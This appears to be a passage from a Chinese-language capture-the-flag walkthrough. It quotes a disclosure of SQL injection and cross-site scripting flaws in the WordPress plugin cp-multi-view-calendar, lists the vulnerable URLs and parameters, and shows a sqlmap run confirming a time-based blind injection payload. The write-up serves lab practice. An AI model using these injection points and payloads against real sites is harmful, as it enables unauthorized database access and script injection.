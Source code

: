 ```bash
-------------------------------------------------------------------

http://localhost/wordpress/wp-admin/admin-ajax.php?action=ajax_delete_calendar

sqlinjection in post parameter id


########################################

UNAUTENTICATED SQL INJECTION
-----------------------------------------------------------------

http://localhost/wordpress/?action=data_management&cpmvc_do_action=mvparse&f=edit&id=1

sql injection in id parameter

-----------------------------------------------------------------------

http://localhost/wordpress/?action=data_management&cpmvc_do_action=mvparse&f=datafeed&method=list&calid=1

datapost viewtype=list&list_order=asc vuln variable list_order


################################################################

CROSSITE SCRIPTING VULNERABILITY
----------------------------------------------------------

http://localhost/wordpress/?action=data_management&cpmvc_do_action=mvparse&weekstartday=alert(12)&f=edit&id=1

crosite script weekstartday parameter

###################################################

==================================

time-line

26-02-2015: vulnerabilities found
27-02-2015: reported to vendor
28-02-2015: release new cp-multi-view-calendar version 1.1.4
28-02-2015: full disclousure

===================================
```

若干 sql 注入漏洞，随便找一个进行测试：

```bash
┌──(kali㉿kali)-[~/temp/Ginger]
└─$ sqlmap -u "http://$IP/wordpress/?action=data_management&cpmvc_do_action=mvparse&f=edit&id=1" --batch --dbs

GET parameter 'id' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 271 HTTP(s) requests:
---
Parameter: id (GET)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: action=data_management&cpmvc_do_action=mvparse&f=edit&id=1 AND (SELECT 9875 FROM (SELECT(SLEEP(5)))sicY)
---
```